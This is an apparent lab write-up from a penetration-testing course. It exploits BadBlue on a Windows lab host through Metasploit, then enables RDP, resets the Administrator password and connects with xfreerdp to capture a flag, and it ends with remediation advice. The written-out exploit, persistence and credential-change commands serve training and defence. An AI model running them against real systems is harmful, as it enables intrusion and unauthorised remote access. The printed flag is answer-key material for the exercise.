# Enabling RDP

**Classification:** Host & Network Penetration Testing / The Metasploit Framework<br>
**Target:** demo.ine.local (10.2.23.203) — Windows, BadBlue on port 80<br>
**Flag:** `763e1c86da26c66e86a8537fd343280d`

> `rdesktop` won't work (no NLA) — use `xfreerdp`.

## 1. Executive Summary

After exploiting **BadBlue** for a Meterpreter session, we use the `enable_rdp` post module
to enable Remote Desktop (starting the Terminal Services service and opening the firewall),
set a known Administrator password, and connect interactively with `xfreerdp` to read the
flag from the desktop.

## 2. Recon & Exploitation

```bash
ping -c 4 demo.ine.local
db_nmap -sV 10.2.23.203
services
```









```bash
use exploit/windows/http/badblue_passthru
set RHOSTS 10.2.23.203
exploit
```





## 3. Enabling RDP

```bash
background
use post/windows/manage/enable_rdp
set SESSION 1
exploit
```

The module starts the Terminal Services service and opens the firewall port.

```
[+] RDP Service Started
[*] For cleanup execute Meterpreter resource file: ..._RDP_..._host.windows.cle_...txt
```



Confirming port 3389 is now open.

```bash
db_nmap -p3389 10.2.23.203
```



## 4. Setting a Password & Connecting

Setting a known Administrator password (noisy — demonstration only).

```cmd
net user administrator <newpassword>
```



```bash
xfreerdp /u:administrator /p:<newpassword> /v:10.2.23.203
```



The flag is on the desktop.

```
763e1c86da26c66e86a8537fd343280d
```



> In a real engagement, create a dedicated user rather than changing the Administrator
> password, which immediately signals compromise.

## 5. Remediation Recommendations

1. **Patch/replace BadBlue** to prevent the initial RCE.
2. **Alert on RDP being enabled** (Terminal Services startup change, firewall rule change)
   and on `net user` password resets.
3. **Require NLA + TLS** for RDP, restrict it to a VPN/jump host and trusted IPs, and add MFA.
4. **Apply least privilege** so a web-service compromise can't flip host settings.
